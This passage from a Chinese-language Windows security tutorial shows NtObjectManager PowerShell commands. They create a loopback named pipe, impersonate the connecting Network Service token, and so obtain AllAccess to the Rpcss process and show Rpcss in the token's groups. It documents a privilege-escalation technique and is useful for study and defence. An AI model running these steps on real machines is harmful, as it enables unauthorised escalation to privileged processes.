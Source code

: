 ```bash
$pipe = New-NtNamedPipeFile \\.\pipe\AAA2 -Win32Path
$job = Start-Job {$pipe.Listen（）}
$file = Get-NtFile \\127.0.0.1\pipe\AAA2 -Win32Path
Wait-Job $Job | Out-Null
```

这次我们模拟命名管道然后再次去请求 Rpcss 服务。这里需要注意的一点是，如果 $p 部分按照文章中的分段进行输入，那么需要在核心模式下运行，也就是需要将命令写入一个 ps1 文件然后执行。如果不想创建一个 ps1 文件，那么可以将命令写为一行。具体命令如下。

```bash
$p = Use-NtObject（$pipe.Impersonate（））{
    Get-NtProcess -ProcessId 912
}
$p.GrantedAccess
```

此时我们可以看到，通过 `Impersonate（）`进行了身份模拟，然后在该身份下执行了 `$p.GrantedAccess` 来获取该进程被赋予的访问权限，结果为 AllAccess。执行结果如图 26 所示。

![](assets/1706773615-0ea33ad37c8ae8128968cb7109248188.jpg)

图 26 获取相关权限

我们可以通过查看令牌的组列表来验证我们前面所说的 Lsass 保存的是登录会话创建的第一个令牌（因为 Rpcss 是第一个以 Network Service 运行的服务）。查看令牌的组列表命令如下。

```bash
$token = Use-NtObject（$pipe.Impersonate（））{
    Get-NtToken -Impersonation
}
$token.Groups | ? Name -Match Rpcss
```

可以看到 Rpcss 已在其中。令牌的组列表如图 27 所示。

![](assets/1706773615-35978a01f4ff11632dcca129da7a480d.jpg)
